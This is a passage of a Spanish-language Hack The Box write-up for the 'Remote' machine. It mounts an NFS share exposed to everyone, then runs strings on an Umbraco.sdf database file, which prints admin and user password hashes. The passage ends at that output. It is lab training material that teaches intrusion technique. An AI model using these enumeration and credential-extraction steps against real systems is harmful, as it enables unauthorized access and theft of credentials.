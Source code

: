 Dicho lo anterior, vamos a utilizar el siguiente comando para tener información de los sistemas de archivos compartidos con información para el acceso del cliente

```console
┌─[nicolasmira101@parrot]─[~/Documents/Hack-the-box/Maquinas/Remote]           
└──╼ $showmount -e 10.10.10.180
Export list for 10.10.10.180:
/site_backups (everyone)
```

- `-e:` imprime una lista de los archivos compartidos o exportados.

Ahora utilizamos el siguiente comando para montar el sistema de archivos que encontramos anteriormente. Primero debemos creamos un directorio donde queremos montar el NFS

```
┌─[root@parrot]─[/home/nicolasmira101/Documents/Hack-the-box/Maquinas/Remote]
└──╼ #mkdir NFS
┌─[root@parrot]─[/home/nicolasmira101/Documents/Hack-the-box/Maquinas/Remote]
└──╼ #mount -t nfs  10.10.10.180:/site_backups NFS/
┌─[root@parrot]─[/home/nicolasmira101/Documents/Hack-the-box/Maquinas/Remote]
└──╼ #cd NFS/
┌─[root@parrot]─[/home/nicolasmira101/Documents/Hack-the-box/Maquinas/Remote/NFS]
└──╼ #ls
App_Browsers  App_Data  App_Plugins  aspnet_client  bin  Config  css  default.aspx  Global.asax  Media  scripts  Umbraco  Umbraco_Client  Views  Web.config
```

Enumerando las carpetas y archivos del NFS encontramos un archivo llamado `Umbraco.sdf` que se encuentra dentro de la carpeta `App_Data`. Los archivos con extensión .sdf contienen una base de datos relacional compactada en el formato de SQL Server Compact y por lo tanto no podemos abrir este tipo de archivo en Linux. Sin embargo, vamos a utilizar el comando `strings` para visualizar las cadenas de caracteres imprimibles que contiene este archivo.

```
┌─[root@parrot]─[/home/nicolasmira101/Documents/Hack-the-box/Remote/NFS/App_Data]
└──╼ #strings Umbraco.sdf 
Administratoradmindefaulten-US
Administratoradmindefaulten-USb22924d5-57de-468e-9df4-0961cf6aa30d
Administratoradminb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}en-USf8512f97-cab1-4a4b-a49f-0a2054c47a1d
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-USfeb1a998-d3bf-406a-b30b-e269d7abdf50
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-US82756c26-4321-4d27-b429-1b5c7c4f882f
smithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749-a054-27463ae58b8e
ssmithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749
ssmithssmith@htb.local8+xXICbPe7m5NQ22HfcGlg==RF9OLinww9rd2PmaKUpLteR6vesD2MtFaBKe1zL5SXA={"hashAlgorithm":"HMACSHA256"}ssmith@htb.localen-US3628acfb-a62c-4ab0-93f7-5ee9724c8d32
@{pv
qpkaj
```
